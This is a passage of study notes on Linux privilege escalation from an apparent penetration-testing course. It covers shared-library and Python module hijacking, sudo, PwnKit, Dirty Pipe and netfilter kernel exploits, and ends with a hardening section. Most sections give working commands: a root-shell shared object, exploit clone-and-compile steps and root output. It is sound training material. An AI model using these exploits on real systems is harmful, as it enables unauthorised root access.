The configuration allows the loading of libraries from the ~/development~ folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in ~/development~ which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).
#+BEGIN_SRC bash
  ls -la /development/

  total 8
  drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
  drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
#+END_SRC

Before compiling a library, we need to find the function name called by the binary.
#+BEGIN_SRC bash
  cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
#+END_SRC

#+BEGIN_SRC bash
  ldd payroll

  linux-vdso.so.1 (0x00007ffd22bbc000)
  libshared.so => /development/libshared.so (0x00007f0c13112000)
  /lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
#+END_SRC

#+BEGIN_SRC bash
  ./payroll 

  ./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
#+END_SRC

We can copy an existing library to the ~development~ folder. Running ~ldd~ against the binary lists the library's path as ~/development/libshared.so~, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named ~dbquery~. We can compile a shared object which includes this function.
#+BEGIN_SRC C
  #include<stdio.h>
  #include<stdlib.h>

  void dbquery() {
      printf("Malicious library loaded\n");
      setuid(0);
      system("/bin/sh -p");
  } 
#+END_SRC

The ~dbquery~ function sets our user id to 0 (root) and executing ~/bin/sh~ when called. Compile it using GCC.
#+BEGIN_SRC bash
  gcc src.c -fPIC -shared -o /development/libshared.so
#+END_SRC

Executing the binary again should display the banner and pops a root shell.
#+BEGIN_SRC bash
  ./payroll 

  ,***************Inlane Freight Employee Database***************

  Malicious library loaded
  # id
  uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
#+END_SRC
** Python Library Hijacking
There are many ways in which we can hijack a Python library. Much depends on the script and its contents itself. However, there are three basic vulnerabilities where hijacking can be used:
*** Wrong Write Permission
One or another python module may have write permissions set for all users by mistake. This allows the python module to be edited and manipulated so that we can insert commands or functions that will produce the results we want. If ~SUID~/~SGID~ permissions have been assigned to the Python script that imports this module, our code will automatically be included.

If we look at the set permissions of the ~mem_status.py~ script, we can see that it has a ~SUID~ set.
#+BEGIN_SRC bash
  ls -l mem_status.py

  -rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
#+END_SRC
So we can execute this script with the privileges of another user, in our case, as ~root~. We also have permission to view the script and read its contents.
**** Python Script - Content
#+BEGIN_SRC python 
  #!/usr/bin/env python3
  import psutil

  available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

  print(f"Available memory: {round(available_memory, 2)}%")

#+END_SRC 
So this script is quite simple and only shows the available virtual memory in percent. We can also see in the second line that this script imports the module ~psutil~ and uses the function ~virtual_memory()~.

So we can look for this function in the folder of ~psutil~ and check if this module has write permissions for us.
**** Module Permissions
#+BEGIN_SRC bash
  grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

  /usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
  /usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
  /usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
  /usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
  /usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
  /usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
  /usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():
#+END_SRC

#+BEGIN_SRC bash
  ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

  -rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
#+END_SRC
**** Module Contents
#+BEGIN_SRC python
  def virtual_memory():

	  ...SNIP...
	
      global _TOTAL_PHYMEM
      ret = _psplatform.virtual_memory()
      # cached for later use in Process.memory_percent()
      _TOTAL_PHYMEM = ret.total
      return ret
#+END_SRC
This is the part in the library where we can insert our code. It is recommended to put it right at the beginning of the function. There we can insert everything we consider correct and effective. We can import the module ~os~ for testing purposes, which allows us to execute system commands. With this, we can insert the command ~id~ and check during the execution of the script if the inserted code is executed.
**** Module Contents - Hijacking
#+BEGIN_SRC python 
  ...SNIP...

  def virtual_memory():

      ...SNIP...
      #### Hijacking
      import os
      os.system('id')
	

      global _TOTAL_PHYMEM
      ret = _psplatform.virtual_memory()
      # cached for later use in Process.memory_percent()
      _TOTAL_PHYMEM = ret.total
      return ret

  ...SNIP...
#+END_SRC
Now we can run the script with ~sudo~ and check if we get the desired result.
*** Library Path
In Python, each version has a specified order in which libraries (~modules~) are searched and imported from. The order in which Python imports modules from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list.
_PYTHoNPATH Listing_
#+BEGIN_SRC bash
  python3 -c 'import sys; print("\n".join(sys.path))'

  /usr/lib/python38.zip
  /usr/lib/python3.8
  /usr/lib/python3.8/lib-dynload
  /usr/local/lib/python3.8/dist-packages
  /usr/lib/python3/dist-packages
#+END_SRC

To be able to use this variant, two prerequisites are necessary.
1.   The module that is imported by the script is located under one of the lower priority paths listed via the ~PYTHONPATH~ variable.
2.   We must have write permissions to one of the paths having a higher priority on the list.

_Psutil Default Installation Location_
#+BEGIN_SRC bash
  pip3 show psutil

  ...SNIP...
  Location: /usr/local/lib/python3.8/dist-packages

  ...SNIP...
#+END_SRC

_Misconfigured Directory Permissions_
#+BEGIN_SRC bash
  ls -la /usr/lib/python3.8

  total 4916
  drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
  ...SNIP...
#+END_SRC
Let us try abusing this misconfiguration to create our own ~psutil~ module containing our own malicious ~virtual_memory()~ function within the ~/usr/lib/python3.8~ directory.

_Hijacked Module Contents - psutil.py_
#+BEGIN_SRC bash
  #!/usr/bin/env python3

  import os

  def virtual_memory():
      os.system('id')
    
#+END_SRC
*** PYTHONPATH Environment Variable
We can see if we have the permissions to set environment variables for the python binary by checking our ~sudo~ permissions:
#+BEGIN_SRC bash
  sudo -l 

  Matching Defaults entries for htb-student on ACADEMY-LPENIX:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User htb-student may run the following commands on ACADEMY-LPENIX:
  (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
#+END_SRC

_Privilege Escalation using PYTHONPATH Environment Variable_
#+BEGIN_SRC bash
  sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

  uid=0(root) gid=0(root) groups=0(root)
  ...SNIP...
#+END_SRC
In this example, we moved the previous python script from the ~/usr/lib/python3.8~ directory to ~/tmp~. From here we once again call ~/usr/bin/python3~ to run ~mem_stats.py~, however, we specify that the ~PYTHONPATH~ variable contain the ~/tmp~ directory so that it forces Python to search that directory looking for the ~psutil~ module to import. As we can see, we once again have successfully run our script under the context of root.
* Recent 0-Days <1 oct 2023>
** Sudo
The ~/etc/sudoers~ file specifies which users or groups are allowed to run specific programs and with what privileges.
#+BEGIN_SRC bash
  sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
  [sudo] password for cry0l1t3:  **********

  Defaults        env_reset
  Defaults        mail_badpass
  Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
  Defaults        use_pty
  root            ALL=(ALL:ALL) ALL
  %admin          ALL=(ALL) ALL
  %sudo           ALL=(ALL:ALL) ALL
  cry0l1t3        ALL=(ALL) /usr/bin/id
  @includedir     /etc/sudoers.d
#+END_SRC

One of the latest vulnerabilities for ~sudo~ carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:
    - 1.8.31 - Ubuntu 20.04
    - 1.8.27 - Debian 10
    - 1.9.2 - Fedora 33
    - and others

To find out the version of sudo, the following command is sufficient:
#+BEGIN_SRC bash
  sudo -V | head -n1

  Sudo version 1.8.31
#+END_SRC

We can either download this to a copy of the target system we have created
#+BEGIN_SRC bash
  git clone https://github.com/blasty/CVE-2021-3156.git
  cd CVE-2021-3156
  make

  rm -rf libnss_X
  mkdir libnss_X
  gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
  gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
#+END_SRC

When running the exploit, we can be shown a list that will list all available versions of the operating systems that may be affected by this vulnerability.

#+BEGIN_SRC bash
  ./sudo-hax-me-a-sandwich
  usage: ./sudo-hax-me-a-sandwich <target>

    available targets:
    ------------------------------------------------------------
      0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
      1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
      2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
    ------------------------------------------------------------

    manual mode:
      ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
#+END_SRC

We can find out which version of the operating system we are dealing with using the following command:
#+BEGIN_SRC bash
  cat /etc/lsb-release

  DISTRIB_ID=Ubuntu
  DISTRIB_RELEASE=20.04
  DISTRIB_CODENAME=focal
  DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
#+END_SRC

Next, we specify the respective ID for the version operating system and run the exploit with our payload.
#+BEGIN_SRC bash
  ./sudo-hax-me-a-sandwich 1
#+END_SRC
*** Sudo Policy Bypass
Another vulnerability was found in 2019 that affected all versions below ~1.8.28~, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the ~/etc/sudoers~ file to execute a specific command.
#+BEGIN_SRC bash
  sudo -l
  [sudo] password for cry0l1t3: **********

  User cry0l1t3 may run the following commands on Penny:
  ALL=(ALL) /usr/bin/id
#+END_SRC

In fact, ~Sudo~ also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the ~/etc/passwd~ file.
#+BEGIN_SRC bash
  cat /etc/passwd | grep cry0l1t3

  cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
#+END_SRC

Thus the ID for the user ~cry0l1t3~ would be ~1005~. If a negative ID (~-1~) is entered at ~sudo~, this results in processing the ID ~0~, which only the ~root~ has. This, therefore, led to the immediate root shell.
#+BEGIN_SRC bash
  sudo -u#-1 id
#+END_SRC
** Polkit
PolicyKit (~polkit~) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so.
Polkit works with two groups of files.
1.   actions/policies (~/usr/share/polkit-1/actions~)
2.   rules (~/usr/share/polkit-1/rules.d~)

Polkit also has ~local authority~ rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory ~/etc/polkit-1/localauthority/50-local.d~ with the file extension ~.pkla~.

PolKit also comes with three additional programs:
1.   ~pkexec~ - runs a program with the rights of another user or with root rights
2.   ~pkaction~ - can be used to display actions
3.   ~pkcheck~ - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is ~pkexec~ because it performs the same task as ~sudo~ and can run a program with the rights of another user or root.
#+BEGIN_SRC bash
  pkexec -u <user> <command>
  pkexec -u root id

  uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

In the ~pkexec~ tool, the memory corruption vulnerability with the identifier [[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034][CVE-2021-4034]] was found, also known as Pwnkit and also leads to privilege escalation. This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. Finally, in November 2021, this vulnerability was published and fixed two months later.

To exploit this vulnerability, we need to download a [[https://github.com/arthepsy/CVE-2021-4034][PoC]] and compile it on the target system itself or a copy we have made.
#+BEGIN_SRC bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
#+END_SRC

Once we have compiled the code, we can execute it without further ado. After the execution, we change from the standard shell (~sh~) to Bash (~bash~) and check the user's IDs.
#+BEGIN_SRC bash
  ./poc

  # id

  uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
** Dirty Pipe

A vulnerability in the Linux kernel, named Dirty Pipe (CVE-2022-0847), allows unauthorized writing to root user files on Linux. Technically, the vulnerability is similar to the Dirty Cow vulnerability discovered in 2016. All kernels from version ~5.8~ to ~5.17~ are affected and vulnerable to this vulnerability.

In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected. Android apps run with user rights, so a malicious or compromised app could take over the phone.

This vulnerability is based on pipes. Pipes are a mechanism of unidirectional communication between processes that are particularly popular on Unix systems. For example, we could edit the ~/etc/passwd~ file and remove the password prompt for the root. This would allow us to log in with the ~su~ command without the password prompt.

To exploit this vulnerability, we need to download a PoC and compile it on the target system itself or a copy we have made.

_Download Dirty Pipe Exploit_
#+BEGIN_SRC bash
  git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
  cd CVE-2022-0847-DirtyPipe-Exploits
  bash compile.sh
#+END_SRC

After compiling the code, we have two different exploits available. The first exploit version (~exploit-1~) modifies the ~/etc/passwd~ and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit.

_Verify Kernel Version_
#+BEGIN_SRC bash
  uname -r

  5.13.0-46-generic
#+END_SRC

_Exploitation_
#+BEGIN_SRC bash
  ./exploit-1

  Backing up /etc/passwd to /tmp/passwd.bak ...
  Setting root password to "piped"...
  Password: Restoring /etc/passwd from /tmp/passwd.bak...
  Done! Popping shell... (run commands now)

  id

  uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

With the help of the 2nd exploit version (~exploit-2~), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:

_Find SUID Binaries_
#+BEGIN_SRC bash
  find / -perm -4000 2>/dev/null

  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/openssh/ssh-keysign
  /usr/lib/snapd/snap-confine
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/xorg/Xorg.wrap
  /usr/sbin/pppd
  /usr/bin/chfn
  /usr/bin/su
  /usr/bin/chsh
  /usr/bin/umount
  /usr/bin/passwd
  /usr/bin/fusermount
  /usr/bin/sudo
  /usr/bin/vmware-user-suid-wrapper
  /usr/bin/gpasswd
  /usr/bin/mount
  /usr/bin/pkexec
  /usr/bin/newgrp
#+END_SRC

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

_Exploitation_
#+BEGIN_SRC bash
  ./exploit-2 /usr/bin/sudo

  [+] hijacking suid binary..
  [+] dropping suid shell..
  [+] restoring suid binary..
  [+] popping root shell.. (dont forget to clean up /tmp/sh ;))

  # id

  uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
#+END_SRC
** Netfilter
Netfilter is a vital Linux kernel module that plays a crucial role in managing network traffic by offering features like packet filtering, network address translation, and various tools for firewall configurations. It operates at the software layer within the Linux kernel and is responsible for controlling and regulating network data flows by manipulating individual packets according to predefined rules. When network packets are received or sent, Netfilter triggers the execution of other modules, such as packet filters, which can intercept and modify packets. Key components like iptables and arptables are used as action mechanisms within the Netfilter hook system for both IPv4 and IPv6 protocol stacks.

This kernel module serves three primary functions:

1.    ~Packet Defragmentation~: Netfilter handles the reassembly of fragmented IP packets before they are forwarded to their intended applications.

2.    ~Connection Tracking~: It maintains a record of active connections, which is essential for stateful packet inspection, a common feature in firewalls.

3.    ~Network Address Translation (NAT)~: Netfilter allows the translation of private IP addresses to public ones and vice versa, facilitating the routing of traffic between internal networks and the internet.

However, despite its crucial role in network security and routing, Netfilter has faced security vulnerabilities in recent years. In 2021 (CVE-2021-22555), 2022 (CVE-2022-1015), and 2023 (CVE-2023-32233), several vulnerabilities were discovered that had the potential to lead to privilege escalation. This underscores the importance of keeping the software and systems updated to mitigate such risks.

For many organizations, the challenge of maintaining and updating Linux distributions can be significant. Companies often use preconfigured Linux distributions tailored to their specific software applications or vice versa. This configuration provides a stable foundation that can be challenging to replace or update. Adapting an entire system to a new software application or vice versa can be a time-consuming and resource-intensive process, particularly for large and complex applications. This is one reason why many companies continue to run older, possibly unsupported, Linux distributions in production environments.

Even when organizations use virtualization technologies like virtual machines or containers (e.g., Docker) to isolate their applications from the underlying host system, the kernel plays a crucial role. While isolation is a positive step for security, there are various methods to escape from such containers, and security must be maintained at multiple levels to ensure a robust defense against potential threats.
*** CVE-2021-22555
*Vulnerable kernel versions: 2.6 - 5.11*
#+BEGIN_SRC bash
  wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
  gcc -m32 -static exploit.c -o exploit
  ./exploit

  [+] Linux Privilege Escalation by theflow@ - 2021

  [+] STAGE 0: Initialization
  [*] Setting up namespace sandbox...
  [*] Initializing sockets and message queues...

  [+] STAGE 1: Memory corruption
  [*] Spraying primary messages...
  [*] Spraying secondary messages...
  [*] Creating holes in primary messages...
  [*] Triggering out-of-bounds write...
  [*] Searching for corrupted primary message...
  [+] fake_idx: fff
  [+] real_idx: fdf

  ...SNIP...

  # id

  uid=0(root) gid=0(root) groups=0(root)

#+END_SRC
*** CVE-2022-25636
A recent vulnerability is CVE-2022-25636 and affects Linux kernel 5.4 through 5.6.10. This is ~net/netfilter/nf_dup_netdev.c~, which can grant root privileges to local users due to heap out-of-bounds write.

However, we need to be careful with this exploit as it can corrupt the kernel, and a reboot will be required to reaccess the server.
#+BEGIN_SRC bash
  git clone https://github.com/Bonfee/CVE-2022-25636.git
  cd CVE-2022-25636
  make
  ./exploit

  [*] STEP 1: Leak child and parent net_device
  [+] parent net_device ptr: 0xffff991285dc0000
  [+] child  net_device ptr: 0xffff99128e5a9000

  [*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
  [+] net_device struct freed

  [*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
  [+] obtained net_device struct

  [*] STEP 4: Leak kaslr
  [*] kaslr leak: 0xffffffff823093c0
  [*] kaslr base: 0xffffffff80ffefa0

  [*] STEP 5: Release setxattrs, free net_device, and realloc it again
  [+] obtained net_device struct

  [*] STEP 6: rop :)

  # id

  uid=0(root) gid=0(root) groups=0(root)

#+END_SRC
*** CVE-2023-32233
This vulnerability exploits the so called ~anonymous sets~ in ~nf_tables~ by using the ~Use-After-Free~ vulnerability in the Linux Kernel up to version ~6.3.1~. These ~nf_tables~ are temprorary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (~Use-After-Free~) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.

The exploitation is done by manipulating the system to use the ~cleared out~ anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain ~root~ privileges.

_Proof-Of-Concept_
#+BEGIN_SRC  bash
  git clone https://github.com/Liuk3r/CVE-2023-32233
  cd CVE-2023-32233
  gcc -Wall -o exploit exploit.c -lmnl -lnftnl
#+END_SRC

_Exploitation_
#+BEGIN_SRC bash
  ./exploit

  [*] Netfilter UAF exploit

  Using profile:
  ========
  1                   race_set_slab                   # {0,1}
  1572                race_set_elem_count             # k
  4000                initial_sleep                   # ms
  100                 race_lead_sleep                 # ms
  600                 race_lag_sleep                  # ms
  100                 reuse_sleep                     # ms
  39d240              free_percpu                     # hex
  2a8b900             modprobe_path                   # hex
  23700               nft_counter_destroy             # hex
  347a0               nft_counter_ops                 # hex
  a                   nft_counter_destroy_call_offset # hex
  ffffffff            nft_counter_destroy_call_mask   # hex
  e8e58948            nft_counter_destroy_call_check  # hex
  ========

  [*] Checking for available CPUs...
  [*] sched_getaffinity() => 0 2
  [*] Reserved CPU 0 for PWN Worker
  [*] Started cpu_spinning_loop() on CPU 1
  [*] Started cpu_spinning_loop() on CPU 2
  [*] Started cpu_spinning_loop() on CPU 3
  [*] Creating "/tmp/modprobe"...
  [*] Creating "/tmp/trigger"...
  [*] Updating setgroups...
  [*] Updating uid_map...
  [*] Updating gid_map...
  [*] Signaling PWN Worker...
  [*] Waiting for PWN Worker...

  ...SNIP...

  [*] You've Got ROOT:-)

  # id

  uid=0(root) gid=0(root) groups=0(root)	
#+END_SRC

Please keep in mind that these exploits can be very unstable and can break the system.
* Hardening Considerations
In the realm of Linux hardening, taking the appropriate measures can effectively mitigate the chances of local privilege escalation. Here is a summary of key steps to enhance Linux security:

1. ~Updates and Patching~: Regularly applying updates and patches is crucial to eliminate known vulnerabilities in the Linux kernel and third-party services. Outdated software can be an easy target for privilege escalation exploits. Automated tools like "unattended-upgrades" on Ubuntu and "yum-cron" on Red Hat-based systems can help streamline this process.

2. ~Configuration Management~: Implementing sound configuration management practices is essential. This includes auditing writable files and directories, using absolute paths for binaries in cron jobs and sudo privileges, avoiding storing credentials in cleartext, cleaning up home directories and bash history, and removing unnecessary packages and services. Consider using security-enhancing technologies like SELinux.

3. ~User Management~: Proper user management involves limiting the number of user and admin accounts, monitoring logon attempts, enforcing strong password policies, regularly rotating passwords, and preventing the reuse of old passwords. Assign users to groups that grant only the minimum necessary privileges, following the principle of least privilege.
Templates exist for configuration management automation tools such as Puppet, SaltStack, Zabbix and Nagios to automate such checks and can be used to push messages to a Slack channel or email box as well as via other methods.

4. ~Audit~: Conduct periodic security and configuration checks on all systems. Compliance frameworks such as DISA STIGs, ISO27001, PCI-DSS, and HIPAA can provide guidelines for establishing security baselines, but these should be adapted to the organization's specific needs. Regular audits should complement vulnerability scanning and penetration testing efforts.

5. ~Use Auditing Tools~: Tools like Lynis can help audit Unix-based systems like Linux, macOS, and BDS. Lynis examines the system's configuration, provides hardening recommendations, and can serve as a baseline for security assessment. It should be used alongside manual techniques to ensure comprehensive security.

Running Lynis as an example:
#+BEGIN_SRC bash
  ./lynis audit system
#+END_SRC
Lynis will generate warnings and suggestions based on its analysis, which can be valuable for identifying security gaps.

In conclusion, privilege escalation on Linux/Unix systems can occur due to various factors, from misconfigurations to known vulnerabilities. Preventing such escalation is crucial, as obtaining root access can lead to further network exploitation. Effective Linux hardening is essential for organizations of all sizes, and it involves a combination of best practice guidelines, manual testing, and automated configuration checks to maintain a secure and robust system.
